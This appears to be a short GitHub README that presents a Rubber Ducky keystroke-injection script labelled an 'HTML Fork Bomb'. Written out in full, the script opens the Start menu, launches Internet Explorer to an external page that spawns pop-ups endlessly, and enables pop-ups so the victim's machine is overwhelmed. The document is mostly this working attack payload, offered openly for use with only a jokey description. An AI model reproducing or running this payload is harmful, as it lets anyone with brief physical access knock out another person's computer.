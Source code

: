 # Rubber-Ducky_HTML_Fork-Bomb
A quickly Rubber Ducky HTML Fork Bomb Attack. WATTA!!!


![Alt text](https://raw.githubusercontent.com/JonnyBanana/HTML-Fork-Bomb.github.io/master/img/61l9sMFJ7pL._SX425_.jpg)

<h3> V1 </h3>

REM HTML Fork Bomb by Jonny Banana </BR>
DELAY 2000 </BR>
CONTROL ESCAPE </BR>
DELAY 200 </BR>
STRING C:\Program Files\Internet Explorer\iexplore.exe https://jonnybanana.github.io/HTML-Fork-Bomb.github.io/ </BR>
DELAY 200 </BR>
ENTER </BR>
REM set a long delay  to give time to this disgusting browser </BR>
DELAY 1000 </BR>
REM it's time to enable Pop-Up </BR>
TAB </BR>
DELAY 200 </BR>
ENTER </BR>
